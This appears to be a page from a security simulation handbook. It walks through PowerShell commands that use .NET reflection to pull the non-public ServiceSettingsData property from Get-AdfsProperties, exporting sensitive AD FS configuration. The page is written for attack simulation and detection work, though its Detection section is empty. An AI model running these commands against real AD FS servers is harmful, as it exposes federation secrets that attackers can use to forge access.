

Export AD FS Configuration via .NET Reflection
Contents
Export AD FS Configuration via .NET Reflection¶
By default, AD FS servers come with a PowerShell module to administer Active Directory Federation Services (AD FS). This PS module has a PowerShell Cmdlet Get-AdfsProperties that allows authorized users to get publicly accessible information such as properties associated with the AD FS service.
The Get-AdfsProperties PS cmdlet returns a Type object that represents the ServiceProperties .NET class.
A threat actor could use .NET reflection to access non-public metadata of the ServiceProperties .NET class to get to sensitive information such as the AD FS configuration.

Table of Contents¶
Preconditions¶
Integrity level: medium
Authorization:
Resource: AD FS Database
Identity:
AD FS Service Account
Local Administrator
AD FS Server
Services:
Active Directory Federation Services (ADFSSRV)
Simulation Steps¶
Get AD FS Service Public Properties¶
On the AD FS Server, open a PowerShell console and use the Get-AdfsProperties PS cmdlet.
$ServiceProperties = Get-ADFSProperties
$ServiceProperties
Access Object Members¶
We can access members (properties, methods, fields, events, and so on) of the current Type class with the PowerShell Cmdlet Get-Member.
$ServiceProperties | Get-Member
Access Non-Public Properties¶
A threat actor could use System.Reflection.BindingFlags enums to control binding and the way in which the search for members and types is conducted by reflection. One could use the following BindingFlags to search for non-public / private members:
[System.Reflection.BindingFlags]::Instance -bor [System.Reflection.BindingFlags]::NonPublic
Run the following commands to get non-public properties
$ServiceProperties.GetType().GetProperties([System.Reflection.BindingFlags]::Instance -bor [System.Reflection.BindingFlags]::NonPublic) | Select-Object Name
Access ServiceSettingsData Non-Public Property¶
Export the non-public property ServiceSettingsData with the following commands:
$ServiceSettingsDataProperty = $ServiceProperties.GetType().GetProperty("ServiceSettingsData", [System.Reflection.BindingFlags]::Instance -bor [System.Reflection.BindingFlags]::NonPublic)
$ServiceSettingsDataPropertyValue = $ServiceSettingsDataProperty.GetValue($ServiceProperties, $null)
$ServiceSettingsDataPropertyValue
Detection¶
Output¶
AD FS Configuration Settings